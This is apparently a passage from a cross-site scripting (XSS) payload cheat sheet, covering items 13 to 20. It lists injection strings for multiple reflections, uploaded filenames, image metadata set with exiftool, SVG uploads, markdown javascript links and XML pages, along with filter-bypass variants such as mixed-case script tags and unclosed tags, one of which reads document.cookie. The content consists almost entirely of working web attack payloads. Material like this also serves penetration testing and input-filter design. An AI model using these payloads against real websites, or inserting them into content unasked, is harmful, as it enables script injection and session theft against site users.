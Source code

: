 13. Uses when there is multiple reflections on same page. (Triple Reflection)
```html
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```

* After input the payload
```html
<!DOCTYPE html>
<html>
<body>
*/alert(1)">'onload="/*<svg/1='
[...]
*/alert(1)">'onload="/*<svg/1='
[...]
*/alert(1)">'onload="/*<svg/1='
</body>
</html>
```

14. XSS in filename (File Upload) Use when uploaded filename is reflected somewhere in target page
```
"><svg onload=alert(1)>.jpeg
```

15. XSS in metadata (File Upload) Use when uploaded metada is reflected somewhere in target page (using exiftool)
```
$ exiftool -Artist='"><script>alert(1)</script>' dapos.jpeg
```

16. XSS with SVG file (File Upload)
```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

17. XSS via markdown
```
[Click Me](javascript:alert('1'))
```

18. XSS in XML page
```
<a:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```
> Add a "-->" to payload if input lands in a comment section

> Add a "]]>" if input lands in a CDATA section

## **XSS Cheat Sheet (Bypass)**
19. Mixed Case
```html
<Script>alert(document.cookie)</Script> 
```

20. Unclosed Tags
```html
<svg onload="alert(1)"
```
